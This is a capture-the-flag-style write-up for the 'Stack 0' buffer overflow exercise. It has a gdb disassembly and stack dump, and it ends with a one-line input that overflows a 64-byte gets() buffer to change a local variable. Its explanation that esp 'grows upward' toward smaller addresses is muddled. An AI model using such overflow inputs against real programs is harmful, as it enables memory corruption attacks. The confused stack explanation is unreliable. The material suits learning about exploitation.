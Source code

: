 # Stack 0

### Overview
        The esp(current stack pointer) grows upward when allocating memory 
        and the higher the esp goes, it points to smaller address number.
        Thus, you need to overwrite all the space of buffer(64 bytes) 
        and then overwrite the allocated space for int modified.

### Process
    $ gdb -q ./stack0
    (gdb) disas main
        Dump of assembler code for function main:
            0x080483f4 <+0>:     push   %ebp
            0x080483f5 <+1>:     mov    %esp,%ebp
            0x080483f7 <+3>:     and    $0xfffffff0,%esp
            0x080483fa <+6>:     sub    $0x60,%esp
            0x080483fd <+9>:     movl   $0x0,0x5c(%esp)
            0x08048405 <+17>:    lea    0x1c(%esp),%eax
            0x08048409 <+21>:    mov    %eax,(%esp)
            0x0804840c <+24>:    call   0x804830c <gets@plt>
            0x08048411 <+29>:    mov    0x5c(%esp),%eax
            0x08048415 <+33>:    test   %eax,%eax
            0x08048417 <+35>:    je     0x8048427 <main+51>
            0x08048419 <+37>:    movl   $0x8048500,(%esp)
            0x08048420 <+44>:    call   0x804832c <puts@plt>
            0x08048425 <+49>:    jmp    0x8048433 <main+63>
            0x08048427 <+51>:    movl   $0x8048529,(%esp)
            0x0804842e <+58>:    call   0x804832c <puts@plt>
            0x08048433 <+63>:    leave
            0x08048434 <+64>:    ret
        End of assembler dump.
    (gdb) b *main+29
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
            Breakpoint 1, main (argc=1,argv=0xffffd634) at stack0/stack0.c:13
            13      stack0/stack0.c: No such file or directory.
    (gdb) x/60x $esp
        0xffffd530: 0xffffd54c  0xffffd5d4  0xf7fb8000  0x0000cd57
        0xffffd540: 0xffffffff  0x0000002f  0xf7e12dc8  0x41414141
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x00004141  0xf7e34c0b
        0xffffd580: 0xf7fb83dc  0x080481e8  0x0804845b  0x00000000
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0x607935e6  0x5c199bf6  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x08048340
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x08048340  0x00000000  0x08048361
        0xffffd610: 0x080483f4  0x00000001  0xffffd634  0x08048450

    buffer[64]: from last stack of line 0xffffd540 
                to 3rd stack of line 0xffffd580 
                -> 64 bytes needs to be overwritten
    modified: from last stack of line 0xffffd580
### Method
    Use more than 64 bytes to overwrite

### Answer
    python -c 'print "A"*68' | ./stack0
    
    

    
    
    
